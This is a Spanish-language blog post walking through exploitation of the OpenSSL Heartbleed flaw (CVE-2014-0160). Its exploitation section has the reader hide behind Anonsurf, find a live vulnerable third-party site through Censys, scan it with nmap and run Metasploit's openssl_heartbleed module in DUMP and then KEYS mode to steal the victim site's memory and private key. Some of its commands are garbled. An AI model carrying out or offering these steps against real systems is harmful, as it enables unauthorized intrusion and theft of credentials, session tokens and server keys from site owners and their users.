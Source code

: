 ```yaml
---
layout: single
title: Explotación de CVE-2014-0160 - Vulnerabilidades
excerpt: "Heartbleed, mejor conocida como CVE-2014-0160 es una vulnerabilidad que permite a un atacante leer hasta 64 Kb de memoria por ataque en cualquier cliente o servidor conectado."
date: 2020-05-15
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2014-0160/cve-2014-0160.png
  teaser_home_page: true
  icon: /assets/images/heartbleed.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2014-0160
  - heartbleed
  - openssL
  - censys
  - metasploit
  
---
```


![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-0160.png)

## Descripción:

CVE-2014-0160, o "Heartbleed", no es un problema en SSL / TL específicamente, sino que fue un problema de implementación en OpenSSL que afecta a las versiones 1.0.1 a 1.0.1f. Puede solucionarse actualizando a una versión más reciente de OpenSSL o compilando alternativamente con la opción -DOPENSSL_NO_HEARTBEATS. No requiere un Man-in-the-Middle para explotar y puede ser explotado tanto contra el servidor como contra el cliente. El problema permite a un atacante extraer hasta 64 kb de memoria del sistema vulnerable, lo que puede conducir al robo de credenciales, tokens de sesión y claves privadas del servidor.

## Explotaciòn:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato.

• Anonsurf start

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01602.png)

Realizamos la búsqueda den Censys de un sitio vulnerable.

• https://censys.io/

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01603.png)

Luego de detectar la dirección IP de una victima realizamos un escaneo con nmap vara validar si es vulnerable.

• nmap -p 443 --script = ssl-heartbleed <URL> para HEARTBLEED

• nmap -sV --version-light --script ssl-poodle -p 443 <URL> para POODLE

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01604.png)

Utilizamos un modulo axuliar de metasploit, ingresamos la ip, puerto y seleccionamos modo DUMP para extraer información de la memoria del sitio., finalmente ejecutamos el exploit.

• msfconsole

• usar auxiliar / escáner / ssl / openssl_heartbleed msf auxiliar

• set RHOSTS <IP O URL VICTIMA>

• set RPORT 443

• set VERBOSE true

• set action DUMP

• exploit

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01605.png)

Observamos que nos trae 65 Kb de información de la memoria del sitio.

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01606.png)

Cambiamos el modo de ataque para que nos extraiga claves que tenga y lo ejecutamos de nuevo.

• set action KEYS

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01607.png)


Finalmente bbtenemos la clave privada del sitio.

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01608.png)

## Referencias:

• https://heartbleed.com/

• https://www.welivesecurity.com/la-es/2014/04/09/5-cosas-debes-saber-sobre-heartbleed/
